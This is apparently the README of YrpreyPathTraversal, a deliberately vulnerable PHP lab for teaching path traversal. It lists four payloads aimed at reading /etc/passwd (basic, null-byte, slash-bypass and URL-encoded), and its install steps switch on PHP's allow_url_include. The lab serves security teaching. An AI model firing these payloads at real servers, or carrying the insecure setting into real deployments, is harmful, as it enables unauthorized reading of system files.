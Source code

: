 # YrpreyPathTraversal

![yprey](https://i.imgur.com/wXUgMrw.png)

**Created by [Fernando Mengali](https://www.linkedin.com/in/fernando-mengali-273504142/)**

YrpreyPathTraversal is a framework that explains vulnerabilities of the Path Traversal in a clear and objective way. The framework was developed to teach and learn details in Pentest (penetration testing) and Application Security. In the context of Offensive Security, vulnerabilities contained in web applications can be identified, exploited and compromised. For application security professionals and experts, the framework provides an in-depth understanding of code-level vulnerabilities. Yrprey, making it valuable for educational, learning and teaching purposes in the field of Information Security.

#### Exploitation - Path Traversal - Basic

![yprey](https://i.imgur.com/B2DpeSO.png)

How exploit Path Taversal - Basic:

````python

 ../../../../etc/passwd

````

#### Exploitation - Path Traversal - Null Termination %00

![yprey](https://i.imgur.com/HE9OtTS.png)

How exploit Path Traversal - Null Termination %00:

````python

 ../../../../etc/passwd%00

````



#### Exploitation - Path Traversal - Bypass with caracteres "//" and/or "\/"

![yprey](https://i.imgur.com/b6islHK.png)

How exploit Path Traversal - Bypass with caracteres "//" and/or "\/"

````python

 ..//..//..//..//etc//passwd

````



#### Exploitation - Path Traversal - Encoded %2f, %c0%af and %ef%bc%8f

![yprey](https://i.imgur.com/6ov1ME4.png)

How exploit Path Traversal - Encoded %2f, %c0%af and %ef%bc%8f

````python

 ..%2f..%2f..%2f..%2fetc%2fpasswd

````


#### Features
 - Based on Path Traversal vulnerabilities.

 ## The framework was written with the following technologies:

* 1º - PHP
* 2º - Bootstrap - CSS
* 3º - Semantic UI


#### List of Vulnerabilities

* 1º - Path Traversal - Basic
* 2º - Path Traversal - Null Termination
* 3º - Path Traversal - Bypass
* 3º - Path Traversal - Encoded

## How Install

* 1º - Install and configure Apache, PHP on your Linux
* 2º - Import the YRpreyPathTraversal files to /var/www/
* 3º - In php ini change allow_url_include to "On".
* 4º - Start Apache Server
* 5º - Access the address http://localhost in your browser


## Observation
test on the Apache web server with PHP and on Linux operating systems.

## Reporting Vulnerabilities

Please, avoid taking this action and requesting a CVE!

The application intentionally has some vulnerabilities, most of them are known and are treated as lessons learned. Others, in turn, are more "hidden" and can be discovered on your own. If you have a genuine desire to demonstrate your skills in finding these extra elements, we suggest you share your experience on a blog or create a video. There are certainly people interested in learning about these nuances and how you identified them. By sending us the link, we may even consider including it in our references.

